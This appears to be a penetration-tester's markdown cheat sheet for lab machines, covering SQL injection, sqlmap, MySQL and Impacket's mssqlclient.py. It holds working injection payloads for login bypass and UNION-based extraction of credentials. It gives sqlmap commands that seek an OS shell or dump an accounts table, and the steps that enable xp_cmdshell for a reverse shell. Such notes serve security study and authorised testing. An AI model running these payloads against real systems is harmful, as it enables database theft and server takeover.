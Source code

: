 - [SQL Injection](#sqli)
- [MYSQL](#mysql)
- [mssqlclient.py](#msspy)

## SQL INJECTION <a name="sqli"></a>
*MySQL SQL Injection cheat sheet:* https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
*Oracle SQL Injection cheat sheet:* https://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet
*PostgreSQL SQL Injection cheat sheet:* https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet
### Classic SQL Injection
This is the most common type of SQL injection, where an attacker injects malicious SQL code into an application's input fields, typically through user inputs like forms or URL parameters.

```bash
' OR '1'='1
```
If the application does not properly sanitize input, the SQL query might look like this:
```bash
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = 'password';
```

Also, you can use **#** . The **#** character is used for commenting. So, if the line responsible for the login is: 
````bash
SELECT * FROM users WHERE user=\$user AND password=\$password
```` 
When we login on the page and enter user=Kill-9 and password=123, the executed statement will be: 
````bash
SELECT * FROM users WHERE user='Kill-9' AND password=$123
````
 If we input:
 ````bash
 user=Kill-9'#'
````
The statement will be: 
````bash
SELECT * FROM users WHERE user='Kill-9'# AND password=$123
```` 
The commented part is not processed, granting us access.


### Union-Based SQL Injection
In a union-based SQL injection, the attacker leverages the UNION SQL operator to combine results from the original query with results from their injected query.
An attacker might inject SQL code like this:
```bash
' UNION SELECT null, username, password FROM users --
```

### Determine the number of columns
If we have an injectable parameter and we want to know how many columns does the database have, we can execute:
```bash
' order+by+<number>--
```
When it causes a *500* response that means that there are not "number" columns
### SQLmap
SQLmap is an open-source tool used in penetration testing to detect and exploit SQL  injection flaws. SQLmap automates the process of detecting and exploiting SQL  injection. SQL Injection attacks can take control of databases that utilize SQL.

If we needed authentication to access to the web we will need to add the cookies value to the command. For doing that we can use Cookie-Editor, explained in [[Tools]].
- **EXAMPLE 1**
	- Parameters:
		- `-u`: Specifies the target URL to be tested for SQL injection vulnerabilities. In this case, the target URL is `http://10.129.95.174/dashboard.php?search=any+query`
	    
		- `--cookie`: Sets the cookie value for the HTTP request. Cookies are often used to maintain session information. Here, the cookie being set is `PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1`.
	    
		- `--os-shell`: This parameter instructs SQLMap to attempt to obtain an operating system shell on the vulnerable server if it successfully exploits a SQL injection vulnerability. An operating system shell allows direct interaction with the underlying operating system.
	```bash
	sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' --  
	cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1" --os-shell
	```
- **EXAMPLE 2**
	- If we discover that a page is vulnerable to SQL injection, _sqlmap_ can be very helpful. To be able to execute these commands, we need to have previously saved a request with _save item_ in Burp Suite, assuming that the file where we saved it is called **pc**. The field in which the insertion will be made in this example is **id**, previously investigated in Burp Suite.

	- *Parameters:*
		- `-r pc`: This parameter specifies the file that contains the saved HTTP request, in this case called "pc". The file is used as input for sqlmap and contains the request that will be used to perform the SQL injection test.
		- `-p id`: This parameter indicates the name of the URL parameter or body parameter in the HTTP request that will be used as the SQL injection point. In this case, the parameter is named "id" and sqlmap will attempt to inject SQL into that parameter to search for possible vulnerabilities.
		- `--dbs`: This parameter instructs sqlmap to enumerate the available databases on the database server. By specifying this parameter, sqlmap will search for information about the databases it has access to by injecting SQL into the mentioned parameter.
		- `--tables`: This parameter instructs sqlmap to enumerate the available tables in the selected database. By using this parameter, sqlmap will search for information about the tables present in the database through the injection of SQL into the mentioned parameter.
		- `-D SQLite_masterdb`: This parameter specifies the name of the database on which the operations will be performed. In this case, "SQLite_masterdb" is used as the database name.
		- `-T accounts`: This parameter specifies the name of the table on which the operations will be performed. In this case, "accounts" is used as the table name.
		- `--columns`: This parameter instructs sqlmap to enumerate the available columns in the specified table.
		- `--batch`: This parameter is used to run sqlmap in batch mode, which means it will not prompt for any interactive user input and will perform the operations automatically.
		- `--threads 5`: This parameter specifies the number of threads that sqlmap will use simultaneously to perform the operations. In this case, 5 threads are used.
		- `--dump`: This parameter instructs sqlmap to extract the data from the specified table and display it as output.

	- *Commands: *
		- It shows the backend database is SQLite. 
		```bash
		sqlmap -r pc -p id 
		sqlmap -r pc -p id --dbs 
		sqlmap -r pc -p id --tables  
		sqlmap -r pc -p id -D SQLite_masterdb -T accounts --columns 
		sqlmap -r pc -p id -D SQLite_masterdb -T accounts --batch --threads 5 --dump```


## MySQL <a name="mysql"></a>

Commands:

````bash
SHOW databases;
````  
- Prints out the databases we can access.
````bash
USE {database_name};
````  
- Set to use the database named {database_name}.
````bash
SHOW tables;
````  
- Prints out the available tables inside the current database.
````bash
SELECT * FROM {table_name};
````  
- Prints out all the data from the table {table_name}.

To connect:
````bash
mysql -h 10.129.42.201 -u root
````


## mssqlclient.py <a name="msspy"></a>
mssqlclient.py is a script from the Impacket class collection. When mssqlclient.py is executed, a connection is established with the specified SQL Server and it allows interaction through a command-line interface.

- `windows-auth`: This flag is specified to use Windows Authentication.
- `ARCHETYPE/sql_svc`: Server ID (previously found).
````bash
python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth
````

In case `xp_cmdshell` is not enabled (which is the command we will use for a reverse shell), perform the following steps:
````bash
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; -- Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

````